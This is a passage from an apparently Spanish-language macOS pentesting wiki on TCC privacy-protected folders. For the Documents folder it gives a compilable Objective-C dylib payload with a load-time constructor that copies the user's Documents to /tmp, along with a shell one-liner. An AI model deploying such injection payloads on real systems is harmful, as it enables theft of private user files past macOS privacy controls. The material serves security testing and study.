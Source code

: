 ### Documentos

* **Entitlement**: Ninguno
* **TCC**: `kTCCServiceSystemPolicyDocumentsFolder`

{% tabs %}
{% tab title="ObjetiveC" %}
Copiar `$HOME/Documents` a `/tmp/documents`.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Documents"];
NSString *tmpPhotosPath = @"/tmp/documents";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
Copia `$HOME/`Documents a `/tmp/documents`.
```bash
cp -r "$HOME/Documents" "/tmp/documents"
```
{% endtab %}
{% endtabs %}

### Descargas

* **Entitlement**: Ninguno
* **TCC**: `kTCCServiceSystemPolicyDownloadsFolder`
